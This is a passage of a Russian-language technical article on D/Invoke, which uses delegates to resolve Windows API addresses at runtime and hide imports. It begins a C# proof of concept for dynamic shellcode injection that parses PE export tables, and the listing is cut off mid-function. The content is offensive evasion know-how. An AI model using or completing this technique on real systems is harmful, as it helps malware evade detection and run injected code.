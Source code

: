 С помощью делегатов разработчик может объявить ссылку на функцию, которую хочет вызвать, со всеми параметрами и типом возвращаемого значения, как и при использовании импорта с помощью атрибута `DllImport`. Разница в том, что в отличие от импорта с помощью `DllImport`, когда рутина поиска адреса импортируемых функций ложится на плечи исполняющей среды, при использовании делегатов мы должны самостоятельно локализовать интересующий нас неуправляемый код (динамически, в ходе выполнения программы) и ассоциировать его с объявленным указателем. Далее мы сможем обращаться к указателю, как к искомой функции, без необходимости «кричать» о том, что мы вообще собирались ее использовать.

D/Invoke предоставляет не один подход для динамического импорта неуправляемого кода, в том числе:

1. [DynamicAPIInvoke](https://github.com/TheWover/DInvoke/blob/0530886deebd1a2e5bd8b9eb8e1d8ce87f4ca5e4/DInvoke/DInvoke/DynamicInvoke/Generic.cs#L33) – парсит структуру DLL (причем может загружать ее как с диска, так и обращться к уже загруженному экземпляру в памяти текущего процесса), где размещена нужная функция, и вычисляет ее экспорт-адрес.
2. [GetSyscallStub](https://github.com/TheWover/DInvoke/blob/0530886deebd1a2e5bd8b9eb8e1d8ce87f4ca5e4/DInvoke/DInvoke/DynamicInvoke/Generic.cs#L806) – загружает в память бибилиотеку `ntdll.dll`, точно так же парсит ее структуру, чтобы в результате получить не что иное, как указатель на экспорт-адрес системного вызова – последней черты перед переходом в мир <strike>мёртвых</strike> kernel-mode (о системных вызовах поговорим чуть позже).

Чтобы было понятнее, разберем для начала простой пример, который делает нечто похожее на первый подход, но без использования D/Invoke.

## DynamicAPIInvoke без D/Invoke

Мне очень нравится пример из [статьи](https://blog.xpnsec.com/weird-ways-to-execute-dotnet/) [xpn](https://twitter.com/_xpn_) (второй листинг кода в разделе «A Quick History Lesson»), где он показывает, как можно использовать всю мощь делегатов вместе ручным поиском экспорт-адреса неуправляемой функции менее чем за 50 строк.

Переименуем функцию `StartShellcodeViaDelegate` в `Main`, добавим необходимые структуры (сигнатуры взяты с [pinvoke.net](http://www.pinvoke.net/)), и у нас готов следующий PoC для демонстрации динамической инъекции шеллкода.

```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace DynamicAPIInvoke
{
    /// <summary>
    /// "A Quick History Lesson"
    /// https://blog.xpnsec.com/weird-ways-to-execute-dotnet/
    /// </summary>
    public class Program
    {
        [UnmanagedFunctionPointer(CallingConvention.Winapi)]
        delegate IntPtr VirtualAllocDelegate(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [UnmanagedFunctionPointer(CallingConvention.Winapi)]
        delegate IntPtr ShellcodeDelegate();

        static IntPtr GetExportAddress(IntPtr baseAddr, string name)
        {
            var dosHeader = Marshal.PtrToStructure<IMAGE_DOS_HEADER>(baseAddr);
            var peHeader = Marshal.PtrToStructure<IMAGE_OPTIONAL_HEADER64>(baseAddr + dosHeader.e_lfanew + 4 + Marshal.SizeOf<IMAGE_FILE_HEADER>());
            var exportHeader = Marshal.PtrToStructure<IMAGE_EXPORT_DIRECTORY>(baseAddr + (int)peHeader.ExportTable.VirtualAddress);

            for (int i = 0; i < exportHeader.NumberOfNames; i++)
            {
                var nameAddr = Marshal.ReadInt32(baseAddr + (int)exportHeader.AddressOfNames + (i * 4));
```

[//]: # (2022-03-29)